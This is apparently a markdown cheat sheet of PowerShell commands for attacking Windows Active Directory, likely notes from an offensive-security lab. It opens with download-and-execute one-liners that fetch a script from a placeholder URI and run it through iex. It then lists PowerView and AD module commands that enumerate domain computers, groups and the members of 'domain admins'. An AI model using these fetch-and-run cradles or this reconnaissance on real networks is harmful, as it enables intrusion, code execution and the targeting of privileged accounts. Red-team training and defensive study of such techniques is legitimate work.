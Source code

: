 ### run remote scripts

```
$wr = [system.net.webrequest]::create('<uri>')
$r = $wr.getresponse()
iex ([system.io.streamreader]($r.getresponsestream())).readtoend()
```

```
iex (new-object net.webclient).downloadstring('<uri>')
iex (iwr '<uri>') // invoke-webrequest - iwr
``` 

### get computers in a domain

Powerview
```
get-netcomputer
get-netcomputer -fulldata
get-netcomputer -fulldata | where-object {$_.name -eq "dcorp-std41"}
get-netcomputer -fulldata -name "dcorp-std41"
get-netcomputer -operatingsystem "*server 2016*"
```

admodule
```
get-adcomputer -filter *
get-adcomputer -filter * | select dnshostname
get-adcomputer -identity "dcorp-std41" -properties *
```

### get groups

Powerview
```
get-netgroup
get-netgroup -domain <domain>
get-netgroup -fulldata
get-netgroup 'domain admins' -fulldata  | select member
get-netgroup "*admin*"
```

admodule
```
get-adgroup -identity 'domain admins'
get-adgroup -filter * -properties *
get-adgroup -filter 'name -like "*admin*"'
```

### get group members

Powerview
```
get-netgroupmember -groupname "domain admins"
```